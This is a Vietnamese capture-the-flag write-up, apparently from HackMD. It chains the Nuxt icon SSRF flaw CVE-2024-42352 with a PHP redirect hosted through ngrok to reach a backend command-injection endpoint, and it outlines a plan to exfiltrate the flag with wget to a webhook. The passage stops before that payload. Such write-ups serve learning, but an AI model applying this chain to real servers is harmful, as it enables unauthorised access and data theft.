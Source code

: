 Sau khi đọc source của server backend thì mình phát hiện ra lỗ hổng command injection ở trong endpoint health_check.
    
<details><summary>app.py</summary></details>
    
    
Ok thì mục tiêu là vậy nhưng sau khi đọc source của frontend thì mình không phát hiện điều gì khả nghi. Mình tìm thử những CVE của nuxtjs dựa theo hint và phát hiện ra CVE này https://nvd.nist.gov/vuln/detail/CVE-2024-42352 có liên quan. Cụ thể thì khi gọi endpoint /api/_nuxt_icon/[name] thì nó sẽ gọi icon dựa vào name đó. Nhưng nếu mình truyền vào một đường dẫn thì nó có thể đi đến đường dẫn đó như trong CVE miêu tả. Thì lúc này mình có thể call đến http:backend:5000 để thực hiện command injection
    
![image](https://hackmd.io/_uploads/r1dUgFLIyl.png)

Ok ngon rồi, thì bây giờ mình có thể call endpoint health_check của server backend
    
![image](https://hackmd.io/_uploads/rkK5gFLLkg.png)

Wait what nó trở về chỗ cũ ?
    
![image](https://hackmd.io/_uploads/BywIZYUIJe.png)

Ở đây mình đọc source thì nó sẽ lấy basename của url mình truyền vào nên khi basename("http:backend:5000/health_check") thì nó sẽ trả ra health_check và ta không thể vào được http. Sở dĩ http:backend:5000 vào được là do nó không bị basename.

Từ đó mình nghĩ cách khác để đưa vào url không bị filter basename mà vẫn redirect được tới backend server.
    
Mình research xí thì thấy có thể sử dụng header Location của php để redirect trang và host bằng ngrok để k bị filter basename

Host một đoạn của php như sau và ngrok : 
    

```html
<!DOCTYPE html>
<html>
<body>
<?php
header("location: http://backend:5000/health_check");
?>
</body>
</html>
```
    
Khi redirect trang vào thì mình nhận kết quả sau
    
![image](https://hackmd.io/_uploads/SJ9UBKLIkx.png)

OK ngon. Mình đã thành công vào được /healthcheck thì lúc này mình sẽ tìm payload để lấy flag. Ngó lại hàm health_check thì nó không phải return kết quả của lệnh mà sẽ check output xem có số 1 không để out ra Data is not responding hoặc ngược lại. Lúc này mình mới nghĩ ra là sử dụng wget và webhook để lấy flag mà không dựa vào kết quả của lệnh. 
    
Payload để chạy lệnh wget : 
    